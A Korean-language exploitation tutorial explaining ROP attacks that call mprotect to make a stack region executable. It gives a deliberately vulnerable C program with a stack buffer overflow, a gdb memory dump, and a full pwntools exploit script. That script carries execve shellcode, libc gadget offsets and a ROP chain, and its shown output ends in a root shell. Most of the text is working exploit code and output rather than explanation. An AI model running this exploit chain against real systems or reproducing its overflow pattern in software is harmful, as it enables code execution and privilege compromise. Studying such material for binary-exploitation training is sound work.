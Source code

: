 ## **Concept**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
   
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 256);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rsp
0x7fffffffe450:	0x4141414141414141	0x000000000040070a
```

mprotect() 함수를 이용하여 Shellcode가 저장된 메모리 영역의 권한을 rwx로 변경 
-> address 값은 페이지 경계에 맞게 정렬되어 있어야 한다.  
mprotect(address of shellcode,0x2000,0x7)

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

binary = ELF('./rop')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p = process('./rop')
#gdb.attach(p)
p.recvline()

printf_addr = int(p.recvline().split(' ')[3],16)
buf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
mprotect_addr = libBase + libc.symbols['mprotect']
pop_rdi_ret = libBase + 0x00141997
pop_rdx_pop_rsi_ret = libBase + 0x001150c9

shell_area = int(str(hex(buf_addr))[0:11]+'000',16)

print('printf_addr: '+str(hex(printf_addr)))
print('buf_addr: '+str(hex(buf_addr)))
print('shell_area: '+str(hex(shell_area)))

payload = shellcode
payload += "A"*(72-len(shellcode))
# mprotect(shellArea,0x2000,0x7)
payload += p64(pop_rdi_ret)
payload += p64(shell_area)
payload += p64(pop_rdx_pop_rsi_ret)
payload += p64(0x7)
payload += p64(0x2000)
payload += p64(mprotect_addr)
payload += p64(buf_addr)


#raw_input('1')
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[*] '/root/test/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 3650
printf_addr: 0x7f52d5ce1800
buf_addr: 0x7ffef5aa0f20
shell_area: 0x7ffef5aa0000
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect](https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect)

